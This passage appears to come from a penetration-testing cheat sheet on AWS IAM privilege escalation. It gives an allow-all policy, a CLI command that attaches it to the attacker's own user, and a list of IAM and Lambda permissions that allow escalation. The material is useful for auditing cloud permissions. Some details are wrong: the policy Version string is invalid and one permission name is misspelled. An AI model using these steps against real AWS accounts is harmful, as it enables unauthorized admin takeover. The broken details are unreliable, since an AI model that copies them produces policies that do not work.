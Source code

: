 ```json
{
	"Version": "2021-10-17",
	"Statement" : [
		{
			"Effect":"Allow",
			"Action": [
				"*"
			],
			"Resource":[
				"*"
			]
		}
	]
}
```

### Attaching this policy into our user

```
aws iam put-user-policy --user-name example_username --policy-name example_name --policy-document file://AdminPolicy.json
```

### Listing inline policies of our user

```
aws iam list-user-policies --user-name example_name
```

### Listing a restricted resource (Example S3)

```
aws s3 ls --profile example_profile
```

### Interesting Permissions

* iam:AttachUserPolicy -> Attach a policy to a user
* iam:AttachGroupPolicy -> Attach a policy to a group
* iam:AttachRolePolicy -> Attach a policy to a role 
* iam:CreateAccessKey -> Creates a new access key
* iam:CreateLoginProfile -> Creates a new login profile 
* iam:UpdateLoginProfile -> Update an existing login profile
* iam:PassRole and ec2:RunInstances -> Creates an EC2 instance with an existing instance profile
* iam:PuserUserPolicy -> Create/Update an inline policy
* iam:PutGroupPolicy -> Create/Update an inline policy for a group
* iam:PutRolePolicy -> Create/Update an inline policy for a role 
* iam:AddUserToGroup -> Add an user to a group
* iam:UpdateAssumeRolePolicy and sts:AssumeRole -> Update the AssumeRolePolicyDocument of a role 
* iam:PassRole,lambda:CreateFunction and lambda:InvokeFunction -> Pass a role to a new lambda function and invoke it
* lambda:UpdateFunctionCode -> Update the code of an existing lambda function
